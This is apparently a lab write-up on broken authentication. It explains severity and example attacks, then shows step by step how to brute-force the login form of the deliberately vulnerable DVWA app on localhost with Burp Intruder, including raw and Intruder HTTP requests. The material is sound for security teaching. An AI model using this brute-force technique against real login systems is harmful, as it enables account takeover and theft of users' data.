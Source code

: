 #### Severity:
 - Severe

#### Scope:
 - Attackers only need to gain access to a few accounts, or one admin account to compromise the system. This may allow money laundering, social security fraud, and identity theft, or expose legally protected highly sensitive information.

#### Example Attacks:
 - Credential stuffing, using a list of known passwords to determine if the credentials are valid.
 - Application session timeouts. When a user closes the browser and does not log out and an attacker gains access to the computer while the user is still logged in. 

#### How it Works
 - In the example below the web application is allowing multiple login attempts by the same user. There is no limit to how many attempts the attacker can make causing it to be vulnerable to brute-force attacks.

#### Scenario
- Intercept a request to the login form
- Set positions around the username and password
- Provide a list of usernames and passwords to test
- Use Intruder to brute-force the login form

---
##### Raw Request 
```
GET /dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://127.0.0.1/dvwa/vulnerabilities/brute/

Cookie: security=low; PHPSESSID=l3q4o5hsovmp2fi1suhua7lbgf

Connection: close

Upgrade-Insecure-Requests: 1

```

##### Intruder Request 
```
GET /dvwa/vulnerabilities/brute/?username=§admin§&password=§password§&Login=Login HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://127.0.0.1/dvwa/vulnerabilities/brute/
```